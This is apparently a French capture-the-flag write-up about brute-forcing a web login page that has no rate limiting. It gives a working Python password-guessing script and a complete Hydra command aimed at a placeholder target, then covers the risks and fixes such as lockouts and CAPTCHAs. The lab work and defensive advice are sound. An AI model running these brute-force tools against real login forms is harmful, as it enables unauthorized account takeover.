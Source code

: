 ## Phase 1 : Découverte de la faille

### Analyse initiale
Lors de l'analyse de la page de connexion, j'ai remarqué qu'il était possible de tester des combinaisons de noms d'utilisateur et de mots de passe sans qu'il y ait de délai entre les tentatives. Cela signifie qu'il n'y avait aucune protection contre les attaques par force brute.

J'ai commencé par tester un nom d'utilisateur basique, comme `admin`, qui est souvent utilisé par défaut dans de nombreuses applications web.

### Tentative avec un script Python
J'ai d'abord écrit un script Python pour tester les mots de passe les plus courants. Cependant, cette méthode s'est avérée trop lente, car chaque requête était exécutée de manière séquentielle. Voici un extrait du script utilisé :

```python
import requests

url = "http://IP_ADDR/index.php"
username = "admin"
password_file = "path/to/passwd.txt"

def try_password(username, password):
    params = {
        "page": "signin",
        "username": username,
        "password": password,
        "Login": "Login"
    }
    response = requests.get(url, params=params)
    if "flag" in response.text:
        print(f"[+] Mot de passe trouvé : {password}")
        return True
    return False

with open(password_file, "r") as file:
    for line in file:
        password = line.strip()
        if try_password(username, password):
            break
```

Bien que fonctionnel, ce script était trop lent pour tester efficacement une grande liste de mots de passe.

---

## Phase 2 : Exploitation avec Hydra

Pour accélérer le processus, j'ai utilisé **Hydra**, un outil spécialisé dans les attaques par force brute. Voici la commande utilisée :

```bash
hydra -l admin -P path/to/passwd.txt IP_ADDR http-get-form "/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:images/WrongAnswer.gif"
```

### Explications de la commande :
- **`-l admin`** : Spécifie le nom d'utilisateur à tester (`admin`).
- **`-P path/to/passwd.txt`** : Spécifie le fichier contenant les 10 000 mots de passe les plus utilisés.
- **`IP_ADDR`** : Adresse IP du serveur cible.
- **`http-get-form`** : Indique que Hydra doit brute-forcer un formulaire HTML via une requête GET.
- **`/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login`** : Définit les paramètres du formulaire. `^USER^` et `^PASS^` sont remplacés par Hydra avec les noms d'utilisateur et mots de passe.
- **`images/WrongAnswer.gif`** : Hydra considère une tentative comme incorrecte si la réponse contient cette chaîne.

### Résultat :
En utilisant Hydra, j'ai trouvé le mot de passe correct très rapidement, car il se trouvait dans le top 30 des mots de passe les plus utilisés. L'absence de délai entre les tentatives a permis de tester les mots de passe à une vitesse élevée.

---

## Phase 3 : Conséquences possibles

### Risques liés à cette faille
1. **Accès non autorisé** :
   - Un attaquant peut accéder au compte administrateur ou à d'autres comptes sensibles en utilisant une attaque par force brute.

2. **Compromission des données** :
   - Une fois connecté, un attaquant peut accéder à des informations sensibles, modifier des données ou compromettre l'intégrité du système.

3. **Escalade de privilèges** :
   - Si le compte administrateur est compromis, l'attaquant peut obtenir un contrôle total sur l'application.

4. **Attaques ultérieures** :
   - L'attaquant peut utiliser l'accès obtenu pour lancer d'autres attaques, comme l'installation de backdoors ou l'exfiltration de données.

---

## Phase 4 : Comment corriger la faille

### 1. **Implémenter un délai entre les tentatives**
- Ajoutez un délai (par exemple, 1 seconde) entre chaque tentative de connexion pour ralentir les attaques par force brute.

### 2. **Limiter le nombre de tentatives**
- Bloquez l'accès à un compte après un certain nombre de tentatives échouées (par exemple, 5 tentatives).

### 3. **Utiliser un CAPTCHA**
- Ajoutez un CAPTCHA après plusieurs tentatives échouées pour empêcher les attaques automatisées.

### 4. **Utiliser des mots de passe forts**
- Forcez les utilisateurs à choisir des mots de passe complexes et uniques.

### 5. **Surveiller les tentatives de connexion**
- Implémentez une journalisation des tentatives de connexion et alertez les administrateurs en cas d'activité suspecte.

### 6. **Configurer un système de verrouillage IP**
- Bloquez temporairement les adresses IP qui effectuent un grand nombre de tentatives échouées.

---

## Conclusion

Cette faille montre l'importance de protéger les formulaires de connexion contre les attaques par force brute. En implémentant des mécanismes de sécurité comme des délais, des limites de tentatives, et des CAPTCHAs, il est possible de réduire considérablement les risques associés à ce type d'attaque.
```
---
>>>>>>> c6a2114 (flag01)
